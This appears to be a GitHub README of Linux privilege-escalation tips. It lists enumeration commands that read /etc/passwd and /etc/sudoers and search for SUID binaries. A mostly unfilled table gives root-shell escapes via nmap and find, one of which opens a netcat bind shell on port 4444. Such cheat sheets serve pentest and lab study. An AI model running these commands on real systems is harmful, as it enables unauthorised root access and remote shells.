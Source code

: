 # Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables            | Priv Esc Command                                                              |
|------------------------------------|-------------------------------------------------------------------------------|
| nmap (older versions 2.02 to 5.21) | nmap --interactive !sh                                                        |
| awk                                |                                                                               |
| python                             |                                                                               |
| perl                               |                                                                               |
| find                               | `find /home -exec nc -lvp 4444  -e /bin/bash \;  
find /home -exec /bin/bash \;` |
| xxd                                |                                                                               |
| vi                                 |                                                                               |
| bash                               |                                                                               |
| more                               |                                                                               |
| less                               |                                                                               |
| nano                               |                                                                               |
| cp                                 |                                                                               |
